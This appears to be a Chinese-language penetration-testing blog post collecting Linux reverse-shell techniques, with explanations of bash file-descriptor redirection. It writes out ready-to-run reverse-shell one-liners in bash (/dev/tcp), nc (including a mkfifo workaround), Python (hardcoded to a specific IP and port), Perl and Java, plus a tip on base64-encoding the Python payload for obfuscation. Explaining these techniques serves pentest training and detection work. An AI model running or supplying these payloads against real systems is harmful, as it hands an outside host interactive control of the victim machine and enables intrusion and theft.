 ```yaml
---
title: Linux反弹shell的各种方法
date: 2018-03-25 16:00:36
tags:
- pentest
- reverse shell
categories:
- pentest
---
```


## 0x00 bash版本

当bash在编译时指定了`--enable-net-redirections`参数，bash就可以通过读写字符设备`/dev/tcp`和`/dev/udp`很方便的实现tcp或udp重定向。这个特性是在2.04版中加入的，对于目前的新版bash，这个选项已经是默认编译选项。我们可以使用bash的这个特性，方便的反弹shell。

首先我们来检查一下受控主机的bash版本：

```bash
$ bash --version
GNU bash, version 4.4.18(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later http://gnu.org/licenses/gpl.html

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

我们的受控主机是ubuntu 16.04操作系统，可以看到bash的版本非常新，远高于2.04。我们可以在控制端，监听某个端口`xxxx`，然后执行下面的命令：

```bash
$ bash -i >& /dev/tcp/attackerip/xxxx 0>&1
```

如果一切顺利，控制端应该就能收到回连的shell了。

下面简单解释一下这条命令。`-i`选项表示启动一个交互式bash。`>&`需要稍微介绍一下，因为它有三种看起来很相似，实际含义差别比较大，容易混淆的写法。

```bash
# 用法一：>&后面跟数字，代表将标准输入复制到数字代表的文件描述符
cmd >&3
# 用法二：关闭标准输出
cmd >&-
# 用法三：实际上是`cmd > file 2>&1`的简写，把标准输出和标准错误重定向到文件
cmd >& file
```

不难理解，上面的命令通过`>&`把标准输入和标准错误都重定向到了字符设备`/dev/tcp/attackerip/xxxx`中，最后`0>&1`把标准输入重定向到标准输出，也就是重定向到这个字符设备中。这个字符设备在文件系统中是不存在的，只是一个bash网络重定向特性支持的伪设备。bash会与ip地址为`attackerip`，端口`xxxx`建立连接，读这个设备就是通过连接接收数据，写这个设备就是向连接发送数据。

所以，最终我们实现了如下所示的通信过程：

```
attackerip:xxxx -->-->--> send cmd -->-->--> victim:bash	# fd 0
	|					|
	<--<--<--<--<--<-- recv result <--<--<--<		# fd 1&2
```

## 0x02 nc版本

nc有一个强大的`-e`选项，可以直接实现上一节bash命令实现的效果：

```bash
$ nc -e /bin/bash attackerip xxxx
```

但是，由于这个选项太危险了，所以很多Linux发行版默认提供的nc都会阉割掉这个选项。不过，借助强大的命名管道，我们完全可以实现“-e”选项的功能。

```bash
$ rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc attackerip xxxx > /tmp/f
```

nc其实主要替代了上一节`/dev/tcp`的作用，我们要做的就是将bash和nc这两个没有亲缘关系的进程连接起来。很自然的我们可以使用命名管道。使用cat命令从命名管道`/tmp/f`读取用户输入发送给bash。而bash执行命令后的返回结果，会通过nc发送给攻击者。同时nc会从标准输入读取攻击者键入的命令，发送给命名管道`/tmp/f`。如下所示：

```
attackerip:xxxx -->-->--> send cmd -->-->--> victim:"/tmp/f" -->-->--> victim:bash
	|								|
	<--<--<--<--<--<--<--<--< recv result <--<--<--<--<--<--<--<--<--
```

## 0x03 各语言版本

### Python

Python版本的原理和上两节是一样的，只是更细节的从代码层面展示了反弹shell的原理。我们来简单的看一下，Python版本的代码：

```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("47.52.229.209", 2333)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash","-i"]);'
```

首先在父进程中通过套接子建立连接，然后使用dup2系统调用将标准输入，标准输出和标准错误重定向到套接子指向的连接。最后使用`subprocess.call()`，创建bash子进程。Linux的进程描述符会在创建进程时直接拷贝，所以bash子进程的标准输入输出和标准错误，都已经重定向到我们建立的连接中。

此外，借鉴metasploit生成的Python后门，我们还可以使用`bases64`编码，起到混淆的作用。只要将上面的代码，用base64编码，然后用下面的方式调用即可：

```python
import base64; exec(base64.b64decode(PAYLOAD))
```

### Perl

Perl版本的思路和Python版几乎完全一致，只是写法不一样，如下所示：

```perl
perl -e 'use Socket;$i="attackerip";$p=xxxx;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

### Java

java版的本质也是通过第一节介绍的，bash的网络重定向实现的，如下所示：

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/xxxx; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
